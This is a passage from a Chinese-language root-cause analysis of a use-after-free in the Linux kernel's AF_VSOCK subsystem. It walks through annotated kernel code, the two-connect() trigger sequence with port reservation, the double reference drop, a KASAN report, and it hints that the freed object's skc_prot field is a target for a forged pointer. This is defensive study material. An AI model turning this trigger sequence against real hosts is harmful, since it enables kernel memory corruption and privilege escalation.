	/* 引用计数：1 -> 2（fd 引用 + 链表引用） */
	sock_hold(&vsk->sk);
	list_add(&vsk->bound_table, list);
}
```

至此，套接字处于**已创建、未绑定**的状态：`sk_refcnt = 2`，挂于 unbound 链表。

##### 2-2-1-2. 链表结构

两条链表的实现细节：

```c
/* 按端口号哈希到 bound hash table 的索引 */
#define VSOCK_HASH(addr)        ((addr)->svm_port % VSOCK_HASH_SIZE)

/* 返回 bound hash table 中对应的 bucket 头 */
#define vsock_bound_sockets(addr) (&vsock_bind_table[VSOCK_HASH(addr)])

/* unbound 链表固定放在 hash table 的最后一项 */
#define vsock_unbound_sockets     (&vsock_bind_table[VSOCK_HASH_SIZE])
```

`vsock_bind_table` 的前 `VSOCK_HASH_SIZE` 项构成 bound 散列表，最后一项固定作为 unbound 链表。套接字内嵌的 `bound_table` 字段同时参与两条链表，导致**仅凭该字段非空无法推断套接字当前属于哪条链表**。这一点正是后续漏洞链条的根源。

#### 2-2-2. 第一次 connect

##### 2-2-2-1. transport 绑定

`connect(victim, cid=self, port=listener)` 进入 `vsock_connect()`：

```c
/*
 * vsock_connect - AF_VSOCK 的 connect() 入口
 * @sock:     上层 struct socket
 * @addr:     用户提供的 sockaddr_vm
 * @addr_len: addr 的长度
 * @flags:    connect 标志（O_NONBLOCK 等）
 *
 * 流程：设置 remote_addr → vsock_assign_transport() 选择 transport
 * → vsock_auto_bind() 自动绑定 → 设置连接状态。
 * 错误路径统一落到 out: 标签，执行 release_sock() 后返回。
 */
static int vsock_connect(struct socket *sock, struct sockaddr *addr,
			 int addr_len, int flags)
{
	...
	/* vsk->transport 为 NULL，只会绑定 transport */
	err = vsock_assign_transport(vsk, NULL);
	if (err)
		goto out;

	transport = vsk->transport;
	...
	/* 自动绑定本地端口 */
	err = vsock_auto_bind(vsk);
	if (err)
		goto out;
	...
out:
	/* 释放 socket lock；不触碰 sk_refcnt */
	release_sock(sk);
	return err;
}
```

`vsock_connect()` 调用的 `vsock_assign_transport()` 根据远端 CID 选择 transport：

```c
/*
 * vsock_assign_transport - 为套接字选择并绑定 transport
 * @vsk:  待处理的 vsock_sock
 * @psk:  父/监听套接字；connect 路径上传 NULL
 *
 * 根据 remote_addr.svm_cid 和套接字类型选择 transport。
 * 如果 vsk->transport 已设置且与新 transport 不同，先调用旧
 * transport 的 release() 和 destruct() 钩子，再绑定新 transport。
 * 该分支是漏洞触发点。
 */
int vsock_assign_transport(struct vsock_sock *vsk, struct vsock_sock *psk)
{
	...
	switch (sk->sk_type) {
	case SOCK_STREAM:
	case SOCK_SEQPACKET:
		/* 判断 remote_cid 是否指向本地 transport */
		if (vsock_use_local_transport(remote_cid))
			new_transport = transport_local;
		...
	}

	/* vsk->transport 为 NULL，本分支整体跳过 */
	if (vsk->transport) {
		if (vsk->transport == new_transport)
			return 0;

		vsk->transport->release(vsk);
		vsock_deassign_transport(vsk);
		...
	}
	...
	/* 调用 transport 的 init 钩子完成绑定 */
	ret = new_transport->init(vsk, psk);
	...
	vsk->transport = new_transport;

	return 0;
}
```

请求的 CID 是 listener 的本地 CID。listener 通过 `getsockname()` 获取实际 CID，该值来自 `vsock_addr_resolve()` —— 对 `VMADDR_CID_ANY` 的请求会被解析为本地 transport 的实际 CID（loopback 场景下即 `VMADDR_CID_LOCAL`）。因此 `vsock_use_local_transport()` 返回 true，`new_transport = transport_local`：

```c
/*
 * vsock_use_local_transport - 判断 remote_cid 是否使用本地 transport
 * @remote_cid:  远端 context id
 *
 * 返回 true 表示应使用 transport_local（loopback）。判断条件：
 *   - remote_cid 恰好等于 VMADDR_CID_LOCAL；
 *   - 或 remote_cid 等于 transport_g2h 注册的本地 CID。
 * 两者都不满足时返回 false。
 */
static bool vsock_use_local_transport(unsigned int remote_cid)
{
	if (!transport_local)
		return false;

	if (remote_cid == VMADDR_CID_LOCAL)
		return true;

	if (transport_g2h) {
		return remote_cid == transport_g2h->get_local_cid();
	} else {
		return remote_cid == VMADDR_CID_HOST;
	}
}
```

`new_transport->init` 回调完成 per-transport 上下文的分配与双向绑定：

```c
/*
 * virtio_transport_do_socket_init - virtio transport 的 init 钩子
 * @vsk:  待初始化的 vsock_sock
 * @psk:  父/监听套接字
 *
 * 分配 per-transport 的 struct virtio_vsock_sock，并与 vsock_sock
 * 双向链接：vsk->trans 指向 vvs，vvs->vsk 指回 vsk。
 */
int virtio_transport_do_socket_init(struct vsock_sock *vsk,
				    struct vsock_sock *psk)
{
	struct virtio_vsock_sock *vvs;

	vvs = kzalloc(sizeof(*vvs), GFP_KERNEL);
	if (!vvs)
		return -ENOMEM;

	/* 双向绑定，使 transport 层可从任一侧访问对方 */
	vsk->trans = vvs;
	vvs->vsk = vsk;
	...
	return 0;
}
```

##### 2-2-2-2. 端口探测

`vsock_connect()` 随后调用 `vsock_auto_bind()`：

```c
/*
 * vsock_auto_bind - 如果套接字尚未绑定，则自动选择一个端口
 * @vsk:  待绑定的 vsock_sock
 *
 * 若 local_addr 已经绑定则直接返回 0；否则用通配 CID 和端口
 * 调用 __vsock_bind() 完成绑定。
 */
static int vsock_auto_bind(struct vsock_sock *vsk)
{
	struct sock *sk = sk_vsock(vsk);
	struct sockaddr_vm local_addr;

	/* 已绑定则无需重复绑定 */
	if (vsock_addr_bound(&vsk->local_addr))
		return 0;
	vsock_addr_init(&local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	return __vsock_bind(sk, &local_addr);
}
```

`vsock_auto_bind()` 通过 `__vsock_bind()` 分发到 `__vsock_bind_connectible()`：

```c
/*
 * __vsock_bind_connectible - 连接型套接字的端口选择与迁移
 * @vsk:   待绑定的 vsock_sock
 * @addr:  请求的地址；svm_port 为 VMADDR_PORT_ANY 时自动挑选
 *
 * 端口自动挑选逻辑：
 *   - 静态 port 计数器在首次调用时随机初始化；
 *   - 每次探测都让 port 递增，避免同一端口重复尝试；
 *   - 最多尝试 MAX_PORT_RETRIES（24）次；
 *   - 若 24 次内未找到空闲端口，返回 -EADDRNOTAVAIL。
 *
 * 成功绑定后，套接字通过 __vsock_remove_bound() 从原链表摘除，
 * 再通过 __vsock_insert_bound() 挂到 bound hash bucket。
 */
static int __vsock_bind_connectible(struct vsock_sock *vsk,
				    struct sockaddr_vm *addr)
{
	/* 跨调用保持的静态计数器，其位置决定端口探测的起点 */
	static u32 port;
	struct sockaddr_vm new_addr;

	if (!port)
		port = get_random_u32_above(LAST_RESERVED_PORT);

	vsock_addr_init(&new_addr, addr->svm_cid, addr->svm_port);

	/* VMADDR_PORT_ANY：自动挑选端口 */
	if (addr->svm_port == VMADDR_PORT_ANY) {
		bool found = false;
		unsigned int i;

		/* 最多探测 MAX_PORT_RETRIES 次 */
		for (i = 0; i < MAX_PORT_RETRIES; i++) {
			if (port <= LAST_RESERVED_PORT)
				port = LAST_RESERVED_PORT + 1;

			/* 每次迭代都让 port 递增，即使命中已绑定端口 */
			new_addr.svm_port = port++;

			if (!__vsock_find_bound_socket(&new_addr)) {
				found = true;
				break;
			}
		}

		/* 若 24 次内未找到空闲端口，直接返回 */
		if (!found)
			return -EADDRNOTAVAIL;
	} else {
		/* 显式端口：保留端口需要 CAP_NET_BIND_SERVICE */
		if (addr->svm_port <= LAST_RESERVED_PORT &&
		    !capable(CAP_NET_BIND_SERVICE)) {
			return -EACCES;
		}

		if (__vsock_find_bound_socket(&new_addr))
			return -EADDRINUSE;
	}

	/* 记录本次绑定的最终地址 */
	vsock_addr_init(&vsk->local_addr, new_addr.svm_cid, new_addr.svm_port);

	__vsock_remove_bound(vsk);
	__vsock_insert_bound(vsock_bound_sockets(&vsk->local_addr), vsk);

	return 0;
}
```

静态 `port` 计数器位于 `P0+1`，而调用者预留的 24 个 `bound_fds[]` 覆盖 `P0+1..P0+24`。24 次探测全部命中预留端口，`found` 保持 false，函数返回 `-EADDRNOTAVAIL`：

```
static port = P0+1
     |
     v
probe P0+1  -> bound_fds[0]   命中
probe P0+2  -> bound_fds[1]   命中
...
probe P0+24 -> bound_fds[23]  命中
循环结束，found = false
static port = P0+25
返回 -EADDRNOTAVAIL
```

##### 2-2-2-3. 结束状态

`connect()` 返回时，套接字具备以下特征：

- `vsk->transport = transport_local`（loopback）；
- `vsk->local_addr` 仍为 `(VMADDR_CID_ANY, VMADDR_PORT_ANY)`；
- `vsk->bound_table` 仍挂在 unbound 链表上；
- `sk_refcnt = 2`；
- 静态 `port` 计数器已推进到 `P0+25`。

`connect()` 错误路径经 `release_sock()` 返回：

```c
/*
 * release_sock - 释放由 lock_sock() 获取的 socket 锁
 * @sk:  待解锁的 struct sock
 *
 * 主要工作：
 *   - 排空 backlog 队列；
 *   - 若协议提供了 release_cb（如 TCP），调用它完成延迟处理；
 *   - 释放 socket 所有权；
 *   - 唤醒等待 socket 锁的进程。
 *
 * 与 sock_put() 不同，本函数不触碰 sk_refcnt。因此 connect()
 * 错误路径虽然经过本函数，套接字的引用计数保持不变。
 */
void release_sock(struct sock *sk)
{
	spin_lock_bh(&sk->sk_lock.slock);
	if (sk->sk_backlog.tail)
		__release_sock(sk);

	if (sk->sk_prot->release_cb)
		INDIRECT_CALL_INET_1(sk->sk_prot->release_cb,
				     tcp_release_cb, sk);

	sock_release_ownership(sk);
	if (waitqueue_active(&sk->sk_lock.wq))
		wake_up(&sk->sk_lock.wq);
	spin_unlock_bh(&sk->sk_lock.slock);
}
```

`release_sock()` 只处理 socket lock 相关事务，对 `sk_refcnt` 完全没有触及——这就是为什么 `connect()` 的错误路径虽然经过本函数，套接字的引用计数仍然保持为 2。

套接字**没有**进入已绑定状态，仍停留在 unbound 链表上，但已经绑定了 loopback transport；同时静态 `port` 计数器被推进到 `P0+25`。这两个副作用构成了后续进入错误释放路径的前提。

#### 2-2-3. 第二次 connect

##### 2-2-3-1. 重分配

`connect(victim, VMADDR_CID_HOST, ...)` 再次进入 `vsock_connect()` 与 `vsock_assign_transport()`：

- 请求的 `addr.svm_cid = VMADDR_CID_HOST`；
- `vsock_use_local_transport()` 对新 CID 返回 false，`new_transport` 选为 `transport_g2h`；
- 当前 `vsk->transport` 是 `transport_local`，与新选择不同，release 分支被触发。

release 分支的执行体如下：

```c
/*
 * vsock_assign_transport - 为套接字选择并绑定 transport
 * @vsk:  待处理的 vsock_sock
 * @psk:  父/监听套接字；connect 路径上传 NULL
 *
 * vsk->transport 非空且与新 transport 不同，release 分支被触发。
 * 旧 transport 的 release() 钩子会沿调用链最终进入
 * vsock_remove_sock()，这是漏洞触发的入口。
 */
int vsock_assign_transport(struct vsock_sock *vsk, struct vsock_sock *psk)
{
	...
	if (vsk->transport) {
		if (vsk->transport == new_transport)
			return 0;

		/* 调用旧 transport 的 release 钩子。virtio transport
		 * 的 release 实现会沿调用链最终进入 vsock_remove_sock() */
		vsk->transport->release(vsk);
		vsock_deassign_transport(vsk);

		/* 清理套接字状态，准备切换到新 transport */
		sock_reset_flag(sk, SOCK_DONE);
		sk->sk_state = TCP_CLOSE;
		vsk->peer_shutdown = 0;
	}
	...
}
```

release 调用链从 `transport_local->release()` 出发，进入 `virtio_transport_release()`：

```c
/*
 * virtio_transport_release - virtio transport 的 release 钩子
 * @vsk:  正在被释放的 vsock_sock
 *
 * 对面向连接的套接字，先通过 virtio_transport_close() 决定是否
 * 需要走优雅关闭流程。若返回 true，直接进入移除流程。
 */
void virtio_transport_release(struct vsock_sock *vsk)
{
	struct sock *sk = &vsk->sk;
	bool remove_sock = true;

	if (sk->sk_type == SOCK_STREAM || sk->sk_type == SOCK_SEQPACKET)
		remove_sock = virtio_transport_close(vsk);
	if (remove_sock) {
		/* 标记 SOCK_DONE，防止后续重复关闭 */
		sock_set_flag(sk, SOCK_DONE);
		virtio_transport_remove_sock(vsk);
	}
}
```

`virtio_transport_close()` 由于 `sk_state` 仍为 `TCP_CLOSE`，首个判断直接返回 true：

```c
/*
 * virtio_transport_close - 判断是否可以直接移除套接字
 * @vsk:  待检查的 vsock_sock
 *
 * 返回值：
 *   true  -> 无需优雅关闭，调用者可直接移除套接字；
 *   false -> 需要等待对端关闭流程完成后再移除。
 *
 * 套接字未进入 ESTABLISHED / CLOSING 状态时，第一个判断即返回
 * true，无需走优雅关闭流程。
 */
static bool virtio_transport_close(struct vsock_sock *vsk)
{
	struct sock *sk = &vsk->sk;

	/* 未处于已连接状态：无需优雅关闭 */
	if (!(sk->sk_state == TCP_ESTABLISHED ||
	      sk->sk_state == TCP_CLOSING))
		return true;
	...
}
```

`remove_sock` 保持 true，进入 `virtio_transport_remove_sock()`：

```c
/*
 * virtio_transport_remove_sock - 从 virtio transport 移除套接字
 * @vsk:  待移除的 vsock_sock
 *
 * 清理 per-transport 的 rx 队列后，交给通用的 vsock_remove_sock()
 * 完成 bound / connected 链表的摘除。
 */
static void virtio_transport_remove_sock(struct vsock_sock *vsk)
{
	struct virtio_vsock_sock *vvs = vsk->trans;

	__skb_queue_purge(&vvs->rx_queue);
	/* 进入通用移除流程，bug 由此处开始触发 */
	vsock_remove_sock(vsk);
}
```

##### 2-2-3-2. 首次递减

`vsock_remove_sock()` 是漏洞所在：

```c
/*
 * vsock_remove_sock - 从 bound 和 connected 链表上摘除套接字
 * @vsk:  待移除的 vsock_sock
 *
 * 无条件调用 vsock_remove_bound()，没有区分套接字当前是否真的
 * 处于已绑定状态。当套接字仅挂在 unbound 链表上时，该调用会
 * 错误地递减引用计数——本漏洞的关键所在。
 */
void vsock_remove_sock(struct vsock_sock *vsk)
{
	/* 无条件调用：缺少对套接字当前绑定状态的判断 */
	vsock_remove_bound(vsk);
	vsock_remove_connected(vsk);
}
```

`vsock_remove_bound()` 及其守卫：

```c
/*
 * vsock_remove_bound - 尝试从 bound 链表移除 vsock_sock
 * @vsk:  待移除的 vsock_sock
 *
 * 守卫条件 __vsock_in_bound_table() 只检查 bound_table 字段是否
 * 为空，对挂在 unbound 链表上的套接字同样返回 true。因此实际
 * 上未绑定的套接字也会走进 __vsock_remove_bound()，触发一次错
 * 误的 sock_put()。
 */
void vsock_remove_bound(struct vsock_sock *vsk)
{
	spin_lock_bh(&vsock_table_lock);
	if (__vsock_in_bound_table(vsk))
		__vsock_remove_bound(vsk);
	spin_unlock_bh(&vsock_table_lock);
}

/*
 * __vsock_in_bound_table - 判断套接字是否挂在 bound 链表上
 * @vsk:  待检查的 vsock_sock
 *
 * 返回值只反映 bound_table 字段是否为空。由于 unbound 链表与
 * bound 链表共享同一个 bound_table 字段，挂在 unbound 链表上
 * 的套接字也会让本函数返回 true。
 */
static inline bool __vsock_in_bound_table(struct vsock_sock *vsk)
{
	return !list_empty(&vsk->bound_table);
}

/*
 * __vsock_remove_bound - 执行实际的移除动作并递减引用计数
 * @vsk:  待移除的 vsock_sock
 *
 * 调用者必须已持有 vsock_table_lock。list_del_init 把套接字从
 * 当前链表上摘除；sock_put 递减引用计数，若归零则触发对象释放。
 */
static void __vsock_remove_bound(struct vsock_sock *vsk)
{
	/* 从当前链表上摘除；若节点本身为空操作也无副作用 */
	list_del_init(&vsk->bound_table);
	/* 递减引用计数；若降到 0 则调用 sk_free 启动释放流程 */
	sock_put(&vsk->sk);
}
```

套接字当前挂在 unbound 链表上，`bound_table` 字段非空，因此 `__vsock_in_bound_table()` 检查通过。`__vsock_remove_bound()` 执行，`sock_put()` 把 `sk_refcnt` 从 **2 降到 1**：

```
vsock_assign_transport()
    └── vsk->transport->release(vsk)
            └── virtio_transport_release()
                    └── virtio_transport_remove_sock()
                            └── vsock_remove_sock()
                                    └── vsock_remove_bound()
                                            └── __vsock_remove_bound()
                                                    ├── list_del_init(&vsk->bound_table);
                                                    └── sock_put(&vsk->sk);   /* 2 → 1 */
```

`sock_put()` 的语义：

```c
/*
 * sock_put - 递减套接字引用计数，归零时释放对象
 * @sk:  待递减的 struct sock
 *
 * 引用计数减 1 后若归零，调用 sk_free 启动释放流程。
 */
static inline void sock_put(struct sock *sk)
{
	if (refcount_dec_and_test(&sk->sk_refcnt))
		sk_free(sk);
}
```

随后 `vsock_deassign_transport()` 清空 transport：

```c
/*
 * vsock_deassign_transport - 解除套接字与当前 transport 的绑定
 * @vsk:  待解除绑定的 vsock_sock
 *
 * 调用 transport 的 destruct() 钩子清理 per-transport 状态；
 * 释放模块引用计数；把 vsk->transport 置回 NULL。
 */
static void vsock_deassign_transport(struct vsock_sock *vsk)
{
	if (!vsk->transport)
		return;

	vsk->transport->destruct(vsk);
	module_put(vsk->transport->module);
	vsk->transport = NULL;
}
```

此时套接字仍存活，`sk_refcnt = 1`。**首次错误递减已经完成，但对象尚未被释放**——`sock_put` 内的 `refcount_dec_and_test` 返回 false，因此 `sk_free` 未被调用。释放的真正触发点在自动绑定路径中。

##### 2-2-3-3. 绑定成功

transport 重分配完成后，`vsock_connect()` 再次调用 `vsock_auto_bind()`。此时 `vsk->local_addr` 仍是 `(VMADDR_CID_ANY, VMADDR_PORT_ANY)`，因此 `vsock_auto_bind()` 沿 `__vsock_bind()` → `__vsock_bind_connectible()` 的路径进入端口探测。静态 `port` 计数器此时位于 `P0+25`，恰好落在预留区间 `P0+1..P0+24` 之外：

```
static port = P0+25
     |
     v
probe P0+25 -> __vsock_find_bound_socket() 返回 NULL
       found = true, break on iteration 1
```

`__vsock_find_bound_socket()` 的匹配规则决定了 `P0+25` 能否命中：

```c
/*
 * __vsock_find_bound_socket - 在 bound hash table 中查找匹配地址
 * @addr:  待查询的地址
 *
 * 遍历 addr->svm_port 哈希到的 bucket，对每个节点执行以下检查：
 *   - 完整 (cid, port) 匹配则命中；
 *   - port 相等且至少一侧 CID 为 VMADDR_CID_ANY 则命中。
 *
 * 返回匹配的套接字，或 NULL 表示无匹配。
 */
static struct sock *__vsock_find_bound_socket(struct sockaddr_vm *addr)
{
	struct vsock_sock *vsk;

	list_for_each_entry(vsk, vsock_bound_sockets(addr), bound_table) {
		if (vsock_addr_equals_addr(addr, &vsk->local_addr))
			return sk_vsock(vsk);

		if (addr->svm_port == vsk->local_addr.svm_port &&
		    (vsk->local_addr.svm_cid == VMADDR_CID_ANY ||
		     addr->svm_cid == VMADDR_CID_ANY))
			return sk_vsock(vsk);
	}

	return NULL;
}
```

预留端口覆盖 `P0+1..P0+24`，探测端口 `P0+25` 与之不相等，函数返回 NULL。`__vsock_bind_connectible()` 的完整执行如下：

```c
/*
 * __vsock_bind_connectible - 连接型套接字的端口选择与迁移
 * @vsk:   待绑定的 vsock_sock
 * @addr:  请求的地址；svm_port 为 VMADDR_PORT_ANY 时自动挑选
 *
 * 端口自动挑选逻辑：
 *   - 静态 port 计数器跨调用保持，其位置决定探测起点；
 *   - 每次探测都让 port 递增，避免同一端口重复尝试；
 *   - 最多尝试 MAX_PORT_RETRIES（24）次；
 *   - 若 24 次内未找到空闲端口，返回 -EADDRNOTAVAIL。
 */
static int __vsock_bind_connectible(struct vsock_sock *vsk,
				    struct sockaddr_vm *addr)
{
	/* 跨调用保持的静态计数器，其位置决定端口探测的起点 */
	static u32 port;
	struct sockaddr_vm new_addr;

	if (!port)
		port = get_random_u32_above(LAST_RESERVED_PORT);

	vsock_addr_init(&new_addr, addr->svm_cid, addr->svm_port);

	/* VMADDR_PORT_ANY（0xffffffff）：自动挑选端口 */
	if (addr->svm_port == VMADDR_PORT_ANY) {
		bool found = false;
		unsigned int i;

		/* 最多探测 MAX_PORT_RETRIES 次 */
		for (i = 0; i < MAX_PORT_RETRIES; i++) {
			if (port <= LAST_RESERVED_PORT)
				port = LAST_RESERVED_PORT + 1;

			/* 每次迭代都让 port 递增，即使命中已绑定端口 */
			new_addr.svm_port = port++;

			/* 首次迭代即命中空闲端口，立即 break */
			if (!__vsock_find_bound_socket(&new_addr)) {
				found = true;
				break;
			}
		}

		/* found 为 true，跳过该错误分支 */
		if (!found)
			return -EADDRNOTAVAIL;
	} else {
		/* 显式端口：保留端口需要 CAP_NET_BIND_SERVICE */
		if (addr->svm_port <= LAST_RESERVED_PORT &&
		    !capable(CAP_NET_BIND_SERVICE)) {
			return -EACCES;
		}

		if (__vsock_find_bound_socket(&new_addr))
			return -EADDRINUSE;
	}

	/* 记录本次绑定的最终地址 */
	vsock_addr_init(&vsk->local_addr, new_addr.svm_cid, new_addr.svm_port);

	/*
	 * 从原链表摘除，同时递减引用计数。
	 * 本次递减把 sk_refcnt 从 1 降到 0，触发对象释放。
	 */
	__vsock_remove_bound(vsk);

	/*
	 * 把套接字挂到 bound hash bucket。
	 * 由于上一步对象已被释放，此处 vsk 已经是悬垂指针：
	 * sock_hold 对已释放的引用计数递增，list_add 写入已释放
	 * 内存，两者均构成 UAF。
	 */
	__vsock_insert_bound(vsock_bound_sockets(&vsk->local_addr), vsk);

	return 0;
}
```

`__vsock_bind_connectible()` 的探测循环首次迭代即 break，直接到达函数末尾两行的迁移操作。`__vsock_remove_bound()` 内的 `sock_put()` 把 `sk_refcnt` 从 1 降到 0，触发释放；紧随其后的 `__vsock_insert_bound()` 使用悬垂的 `vsk` 执行 `sock_hold()` 与 `list_add()`，构成本漏洞在 KASAN 报告中的直接表现。

##### 2-2-3-4. 释放与 UAF

`__vsock_remove_bound()` 内的 `sock_put()` 执行第二次递减，`sk_refcnt` 从 **1 降到 0**：

```
__vsock_bind_connectible()
    ├── __vsock_remove_bound(vsk)
    │       ├── list_del_init(&vsk->bound_table);   /* 空操作 */
    │       └── sock_put(&vsk->sk);                  /* 1 → 0 → 释放 */
    └── __vsock_insert_bound(vsock_bound_sockets(...), vsk)
            ├── sock_hold(&vsk->sk);                 /* 对已释放对象递增 */
            └── list_add(&vsk->bound_table, list);   /* UAF 写 */
```

`sk_refcnt` 归零触发完整的释放链条：

```c
/*
 * sock_put - 递减引用计数，归零时释放对象
 */
static inline void sock_put(struct sock *sk)
{
	if (refcount_dec_and_test(&sk->sk_refcnt))
		sk_free(sk);
}

/*
 * sk_free - 释放套接字前检查写侧缓冲区
 * @sk:  待释放的 struct sock
 *
 * 先递减 sk_wmem_alloc；若仍有未完成的写操作，sock_wfree 会在
 * 后续回调中调用 __sk_free；否则立即进入 __sk_free。
 *
 * 套接字从未发送数据时，sk_wmem_alloc 保持在 sk_alloc 中初始
 * 化的 1，因此递减后归零，直接进入 __sk_free。
 */
void sk_free(struct sock *sk)
{
	if (refcount_dec_and_test(&sk->sk_wmem_alloc))
		__sk_free(sk);
}

/*
 * __sk_free - 套接字释放的最后一步
 * @sk:  待释放的 struct sock
 *
 * 更新网络命名空间统计，然后通过 sk_destruct 回调完成协议级
 * 清理。vsock 在 __vsock_create 中把 sk_destruct 设置为
 * vsock_sk_destruct。
 */
static void __sk_free(struct sock *sk)
{
	if (likely(sk->sk_net_refcnt))
		sock_inuse_add(sock_net(sk), -1);

	if (unlikely(sk->sk_net_refcnt && sock_diag_has_destroy_listeners(sk)))
		sock_diag_broadcast_destroy(sk);
	else
		sk_destruct(sk);
}

/*
 * vsock_sk_destruct - vsock 协议级析构
 * @sk:  待析构的 struct sock
 *
 * 清空 per-transport 上下文，重置 local/remote 地址，释放属主
 * 凭证。对象最终回到 AF_VSOCK slab 缓存。
 */
static void vsock_sk_destruct(struct sock *sk)
{
	struct vsock_sock *vsk = vsock_sk(sk);

	__skb_queue_purge(&sk->sk_error_queue);

	vsock_deassign_transport(vsk);

	vsock_addr_init(&vsk->local_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);
	vsock_addr_init(&vsk->remote_addr, VMADDR_CID_ANY, VMADDR_PORT_ANY);

	put_cred(vsk->owner);
}
```

对象回到 `AF_VSOCK` slab 缓存。然而 `__vsock_bind_connectible()` 不会因为这次释放而提前返回，其下一条语句 `__vsock_insert_bound()` 仍然使用悬垂的 `vsk`：

```c
/*
 * __vsock_insert_bound - 把套接字挂到指定链表并取一份引用
 * @list:  目标链表头
 * @vsk:   待挂载的 vsock_sock
 *
 * 本函数不做任何存活检查，假设 vsk 仍然有效。当调用方在前一步
 * 已经释放了对象时，本函数内的两行操作都会落在已释放内存上：
 *   - sock_hold 触发 refcount_t: addition on 0 告警；
 *   - list_add 向已释放内存写入链表指针。
 */
static void __vsock_insert_bound(struct list_head *list,
				 struct vsock_sock *vsk)
{
	/* 对已释放对象递增引用计数 */
	sock_hold(&vsk->sk);
	/* 向已释放对象的内存写入链表指针 */
	list_add(&vsk->bound_table, list);
}
```

`sock_hold()` 的具体作用：

```c
/*
 * sock_hold - 递增套接字引用计数
 * @sk:  待递增的 struct sock
 *
 * 对已释放对象的引用计数执行递增会触发 refcount_t 告警，
 * 这正是本漏洞在 KASAN 报告中的表现之一。
 */
static __always_inline void sock_hold(struct sock *sk)
{
	refcount_inc(&sk->sk_refcnt);
}
```

`__vsock_insert_bound()` 内的两行操作均落在已释放内存上：

- `sock_hold(&vsk->sk)` 通过 `refcount_inc()` 对已释放的引用计数再次递增，触发内核的 `refcount_t: addition on 0` 告警；
- `list_add(&vsk->bound_table, list)` 向已释放对象的内存写入链表指针。

KASAN 报告：

```
BUG: KASAN: slab-use-after-free in __vsock_bind+0x62e/0x730
Read of size 4 at addr ffff88816b46a74c by task a.out/2057
refcount_t: addition on 0; use-after-free.
```

#### 2-2-4. 缺陷总结

两次 connect 的状态差异：

| 阶段              | 第一次 connect                           | 第二次 connect                             |
| ----------------- | ---------------------------------------- | ------------------------------------------ |
| 请求的 svm_cid    | 本地 CID                                 | VMADDR_CID_HOST                            |
| `vsk->transport`  | NULL → `transport_local`                 | 非 NULL → 触发 release                     |
| 自动绑定结果      | 24 次探测全部命中，返回 `-EADDRNOTAVAIL` | 首次探测即成功                             |
| `sock_put()` 次数 | 0                                        | 2（release 路径 1 次 + 自动绑定路径 1 次） |
| `sk_refcnt` 变化  | 保持 2                                   | 2 → 1 → 0                                  |
| 状态              | 停留在 unbound 链表                      | UAF                                        |

两次 connect 之间存在一种**耦合关系**：第一次 connect 的失败，不仅决定了套接字停留在 unbound 链表上，也把静态 `port` 计数器推进到预留区间之外，为第二次 connect 的自动绑定成功铺路。而自动绑定成功恰恰又是触发第二次 `sock_put()` 的必要条件——如果第二次自动绑定也失败，函数会提前返回，`__vsock_remove_bound()` 与 `__vsock_insert_bound()` 都不会被执行，链条在首次递减后就终止，漏洞无法触发。

缺陷本质可以归结为一句话：**同一个 `bound_table` 字段被复用于 bound 与 unbound 两条链表时，仅通过该字段是否为空来判断对象状态是不够的**。围绕这一根本问题，代码中形成了三点具体缺陷：

- `__vsock_in_bound_table()` 只检查 `bound_table` 是否为空，无法区分套接字究竟挂在哪条链表上；
- `vsock_remove_sock()` 在 transport 重分配路径上无条件调用 `vsock_remove_bound()`，未考虑套接字可能仍处于未绑定状态；
- `__vsock_remove_bound()` 与 `__vsock_insert_bound()` 被设计为一对安全的迁移操作，但当引用计数在两者之间归零时，这一假设不再成立。

三者共同作用，使得引用计数被错误递减两次，对象在仍被后续代码引用的情况下被释放，最终形成可利用的 UAF。

### 2-3. 核心数据结构

漏洞链条上涉及的数据结构从用户态可见的 socket 抽象层一直延伸到内核 slab 分配器。本节按从高层到低层的顺序展开，分为套接字层、vsock 专用层、通用套接字层、协议操作接口、transport 接口、链表与队列、工作队列与同步、内存与辅助八个部分。每一部分都从结构体在内核中的职责入手，再逐步深入到与漏洞相关的具体字段。

#### 2-3-1. 套接字层结构

套接字层是用户态系统调用与内核协议栈之间的第一道抽象。它把文件描述符、协议操作集与底层套接字对象三者绑定在一起。

##### 2-3-1-1. socket

用户态通过文件描述符操作的套接字对象，是 `socket()` 系统调用返回的抽象层。它在 `sock->sk` 与底层的 `struct sock` 之间建立关联，并在 `sock->ops` 中记录协议族的操作集。

```c
struct socket {
    socket_state state;                      /* 套接字连接状态：SS_UNCONNECTED / SS_CONNECTING / SS_CONNECTED / SS_DISCONNECTING */
    short type;                              /* 套接字类型：SOCK_STREAM / SOCK_DGRAM / SOCK_SEQPACKET */
    unsigned long flags;                     /* 套接字标志位，与 sock->sk_flags 分别维护 */
    struct file *file;                       /* 关联的文件对象，指向打开该套接字的 file 结构 */
    struct sock *sk;                         /* 指向底层通用套接字结构，是 socket 与协议栈的桥梁 */
    const struct proto_ops *ops;             /* 协议族的操作集，决定 bind/connect/listen 等入口的实现 */
    struct socket_wq wq;                     /* 等待队列与异步通知结构，用于阻塞唤醒与 SIGIO */
};
```

`vsock_create()` 在创建时按 `type` 为 `ops` 赋值为 `vsock_stream_ops` 等，随后 `close()` 系统调用进入 `vsock_release()`，`release_sock()` 又通过 `sock->ops->release()` 分发。

##### 2-3-1-2. socket_wq

socket 层的等待队列包装，由 `sock->wq` 与 `sk->sk_wq` 双向关联。

```c
struct socket_wq {
    wait_queue_head_t wait;                      /* 等待队列头 */
    struct fasync_struct *fasync_list;           /* 异步通知链表 */
    unsigned long flags;                         /* 标志位 */
    struct callback_head rcu;                    /* RCU 释放回调头 */
};
```

`vsock_create()` 之后 `sock->wq` 与 `sk->sk_wq` 互指。`sock_orphan()` 会把 `sk->sk_wq` 置为 NULL，切断与 socket 层的关联——这一步在 socket 释放路径上发生，是判断套接字是否已进入销毁流程的间接依据。

#### 2-3-2. vsock 专用结构

vsock 在通用套接字结构之上叠加了三层专有结构：套接字本身的 `vsock_sock`、per-transport 上下文的 `virtio_vsock_sock`，以及控制包描述符 `virtio_vsock_pkt_info`。

##### 2-3-2-1. vsock_sock

vsock 协议族专用的套接字结构，是 UAF 的直接对象。它以一个内嵌的 `struct sock sk` 作为起始，后接 vsock 专有字段。

```c
struct vsock_sock {
    struct sock sk;                                  /* 内嵌的通用套接字，位于结构体起始处；其 skc_prot 字段是伪造指针的落点 */
    const struct vsock_transport *transport;         /* 当前绑定的 transport 接口；重分配路径上会被切换，也是 release 钩子的分发点 */
    struct sockaddr_vm local_addr;                   /* 本地地址（CID 与端口）；bind/autobind 后由通配值变为具体值 */
